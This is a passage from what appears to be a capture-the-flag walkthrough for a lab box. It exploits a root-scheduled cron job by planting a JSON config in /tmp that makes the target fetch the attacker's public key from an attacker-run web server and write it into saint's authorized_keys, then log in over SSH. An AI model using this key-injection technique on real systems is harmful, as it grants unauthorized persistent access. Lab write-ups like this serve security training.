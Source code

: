 ```python
    Cron job is going to make my work easy peasy
    """
    configPath = ConfigReader.set_config_path()
    config = ConfigReader.read_config(configPath)
    connections = checker(config)
    if 'FTP' in connections:
        ftpcon(config['FTP'])
    else:
        if 'SSH' in connections:
            sshcon(config['SSH'])
        else:
            if 'URL' in connections:
                sync(config['URL'], config['Output'])


if __name__ == '__main__':
    main()
# okay decompiling syncer.cpython-38.pyc
```
Analyzing the sources reveals that there must be a cron job running by the user *saint* to execute *syncer.py*.

*pspy64* confirms the presence of a cronjob that executes */home/saint/.sync-data/syncer.py* every 3 minutes:
```markdown
2020/09/27 17:21:01 CMD: UID=1000 PID=29007  | /bin/sh -c /usr/bin/python3 /home/saint/.sync-data/syncer.py 
2020/09/27 17:21:01 CMD: UID=1000 PID=29006  | /bin/sh -c /usr/bin/python3 /home/saint/.sync-data/syncer.py 
2020/09/27 17:21:01 CMD: UID=0    PID=29005  | /usr/sbin/CRON -f 
2020/09/27 17:24:01 CMD: UID=1000 PID=29014  | /usr/bin/python3 /home/saint/.sync-data/syncer.py 
2020/09/27 17:24:01 CMD: UID=1000 PID=29013  | /bin/sh -c /usr/bin/python3 /home/saint/.sync-data/syncer.py 
2020/09/27 17:24:01 CMD: UID=0    PID=29012  | /usr/sbin/CRON -f 
2020/09/27 17:24:06 CMD: UID=0    PID=29019  | 
2020/09/27 17:27:01 CMD: UID=1000 PID=29023  | /bin/sh -c /usr/bin/python3 /home/saint/.sync-data/syncer.py 
2020/09/27 17:27:01 CMD: UID=1000 PID=29022  | /bin/sh -c /usr/bin/python3 /home/saint/.sync-data/syncer.py 
2020/09/27 17:27:01 CMD: UID=0    PID=29021  | /usr/sbin/CRON -f
```
We are missing some sources to fully understand the program, but what we have is enough to understand that:

there is a cron job that executes *syncer.py* every 3 minutes
the program will list all *.json* files in saint’s home and in */tmp*
if there are files which names are based on date format, with a more recent version in */tmp*, it will copy the content of the location indicated by *URL* (in the json file) to the destination indicated by *Output* (in the json file).
Let’s create a file named */tmp/27-09-2020.config.json* with the following content:
```markdown
{
    "URL": "http://172.16.222.128:8000/id_rsa.pub",
    "Output": "/home/saint/.ssh/authorized_keys"
}
```
Now run a python web server (*python3 -m http.server*) from */home/kali/.ssh* and wait for a connection from the target (max 3 min). After you see the connection to your web server, you can connect as saint:
```markdown
kali@kali:~/.ssh$ ssh saint@djinn.box
```
---
### Lateral move (saint -> jason)